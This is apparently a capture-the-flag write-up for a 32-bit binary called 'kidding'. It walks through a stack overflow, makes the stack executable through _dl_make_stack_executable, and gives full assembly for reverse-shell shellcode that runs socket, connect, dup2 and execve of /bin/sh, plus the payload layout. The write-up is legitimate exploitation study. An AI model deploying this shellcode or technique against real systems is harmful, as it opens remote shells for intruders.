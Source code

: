 # kidding

The challenge gives us a file without libc

Running it

 ![](https://hackmd.io/_uploads/BkkwUBRqn.png)

The program gets an input then ends

Debuging with gdb

`main`

```
Dump of assembler code for function main:
   0x0804887c <+0>:     push   ebp
   0x0804887d <+1>:     mov    ebp,esp
   0x0804887f <+3>:     sub    esp,0x8
   0x08048882 <+6>:     push   0x64
   0x08048884 <+8>:     lea    eax,[ebp-0x8]
   0x08048887 <+11>:    push   eax
   0x08048888 <+12>:    push   0x0
   0x0804888a <+14>:    call   0x806d180 <read>
   0x0804888f <+19>:    add    esp,0xc
   0x08048892 <+22>:    push   0x0
   0x08048894 <+24>:    call   0x806d330 <close>
   0x08048899 <+29>:    add    esp,0x4
   0x0804889c <+32>:    push   0x1
   0x0804889e <+34>:    call   0x806d330 <close>
   0x080488a3 <+39>:    add    esp,0x4
   0x080488a6 <+42>:    push   0x2
   0x080488a8 <+44>:    call   0x806d330 <close>
   0x080488ad <+49>:    add    esp,0x4
   0x080488b0 <+52>:    mov    eax,0x0
   0x080488b5 <+57>:    leave
   0x080488b6 <+58>:    ret
```

* So it `read` `0x64` bytes from `sdtin`, stores result in `ebp - 0x8` and call `close(stdin)`, `close(stdout)`, `close(stderr)`

Checksec

![](https://hackmd.io/_uploads/rJ9zvS0q2.png)

Check for process mapping then i see that it doesn't use libc

![](https://hackmd.io/_uploads/S1hSDrR5h.png)


* Then decompile the program with `ida` i see that many functions in libc is in the program. In other word, this program is a libc. But it doesn't have some functions tho
* Since it `close` all standard file stream, we can't interact with it even if we can get a shell. So the idea is using `reverse-shell`
* So i write `reverse-shell shellcode` to stack then executes it

## Make stack executable

Basically the first thing i have to do is making the stack executable

* First i tried to use `mprotect` syscall but it didn't work, then i figured out that the address passed to that has to be `AND` with `0xfffff000`. Even i can make the address align like that but it takes too many gadgets
* Then i found out there's a function that make stack executable for me. It's call `_dl_make_stack_executable`.

```cpp=
unsigned int __usercall dl_make_stack_executable@<eax>(_DWORD *a1@<eax>)
{
  unsigned int result; // eax

  if ( *a1 != _libc_stack_end )
    return 1;
  result = mprotect(*a1 & -dl_pagesize, dl_pagesize);
  if ( result )
    return *(_DWORD *)(__readgsdword(0) - 24);
  *a1 = 0;
  dl_stack_flags |= 1u;
  return result;
}
```

* To make it work, the argument must be `_libc_stack_end`, then it call `mprotect` with `prot` is stored in a global variable called `__stack_prot`. First `__stack_prot` contain `0x100000`

![](https://hackmd.io/_uploads/BJ7VoBC93.png)

* So i have to change it to `0x7` (PROT_READ | PROT_WRITE | PROT_EXEC)

```cpp=
#define	PROT_READ	 0x04	/* Pages can be read.  */
#define	PROT_WRITE	 0x02	/* Pages can be written.  */
#define	PROT_EXEC	 0x01	/* Pages can be executed.  */
```

So after making stack executable, i use `jmp esp` to jump to my `reverse-shell shellcode`

## Reverse-shell

You can see [this](https://smarinovic.github.io/posts/Reverse-shell/) for more infomations about `reverse-shell`

* Some syscall i use to create a `reverse-shell`. See [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) for syscall number
```
execve   0xb         //to execute('/bin/sh')
socket   0x167       //to create socket
connect  0x16a       //to connect to our machine
dup2     0x3f        //redirect file stream to socket  
```
* First i wonder if i can use `dup2` with a closed file stream. Reading document for `dup2`

>If the file descriptor newfd was previously open, it is closed
       before being reused; the close is performed silently (i.e., any
       errors during the close are not reported by dup2()).

* `dup2` will `close` the file stream anyway so it's okay

* So my `revese-shell` will be like this after trying to minimize the size

```

//socket(AF_INET, SOCK_STREAM, 0)
push 2
pop ebx                ;ebx = AF_INET for ipv4
push 1
pop ecx                ;ecx = SOCK_STREAM for tcp protocol
push eax
pop edx                ;edx = 0 for ip protocol
mov ax, 0x167 
int 0x80

//eax is now socket file descriptor

//connect(socket, struct sockaddr_in, len)                 
mov edi, eax          ;store the socket in edi to reuse
//create struct on stack
push ebp              ;ip address 
push  {}0002          ;port and AF_INET
mov ecx, esp          ;sockaddr struct
mov ebx, edi          ;ebx = socket
mov dl, 0x10          ;size of (struct sockaddr_in)
mov ax, 0x16a
int 0x80


//dup2(socket, stdin)
mov al, 0x3f
xor ecx, ecx           ;ecx = 0(stdin), ebx is already socket
int 0x80

//dup2(socket, stdout)
mov eax, 0x3f
mov ebx, edi           ;ebx = socket
mov ecx, 1             ;ecx = stdout
int 0x80

//i don't dup2(socket, stderr) here because we don't need it, but it you like you can do it



//execve('/bin/sh')
mov eax, 0xb
push 0x68732f
push 0x6e69622f
mov ebx, esp           ;ebx -> /bin/sh
mov ecx, 0    
mov edx, 0
int 0x80
```


* The problem rises when the payload's length is over `100`. So far to `socket(socket, stdout)` it's okay, i decided to make a `read` syscall after `dup2(socket, stdin)` and continue my shellcode by that `read`
* So in server side it has to send the remained shellcode
* Calculate the distance between `esp` and `eip` to write shellcode at right place

![](https://hackmd.io/_uploads/BkOS-I092.png)

* So my payload will be like

```python=
b'A'*0x3c + shell
```

Running it

![](https://hackmd.io/_uploads/SkJsZIR9n.png)

Success get a shell in the program

Checking in server side

![](https://hackmd.io/_uploads/B12nbIAch.png)

It works but i don't have any server to check if my solution is true. 

